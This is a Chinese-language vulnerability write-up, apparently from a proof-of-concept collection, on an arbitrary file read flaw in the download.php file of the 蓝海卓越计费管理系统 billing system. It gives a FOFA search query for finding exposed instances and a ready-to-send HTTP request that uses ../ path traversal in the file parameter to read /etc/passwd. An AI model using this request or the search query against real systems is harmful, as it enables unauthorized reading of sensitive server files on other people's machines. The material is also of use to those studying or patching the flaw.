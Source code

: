 # 蓝海卓越计费管理系统-download.php-任意文件读取漏洞

## 漏洞描述

蓝海卓越计费管理系统 download.php文件存在任意文件读取漏洞，攻击者通过 ../ 遍历目录可以读取服务器上的敏感文件

## 漏洞影响

> [!NOTE]
>
> 蓝海卓越计费管理系统

## FOFA

> [!NOTE]
>
> title=="蓝海卓越计费管理系统"

## 漏洞复现

登录页面如下

![](蓝海卓越计费管理系统-download.php-任意文件读取漏洞.assets/1627363106336299.jpg)

出现漏洞的文件为 download.php ，其中 file参数 存在用户可控

发送如下请求包

```
GET /download.php?file=../../../../../etc/passwd HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=qkoqsiilc4dol8s4e9d7ta15g7; mylang=zh_s

Connection: close
```

![](蓝海卓越计费管理系统-download.php-任意文件读取漏洞.assets/16273631066600802.jpg)

## Goby & POC

![](蓝海卓越计费管理系统-download.php-任意文件读取漏洞.assets/1627363107025308.jpg)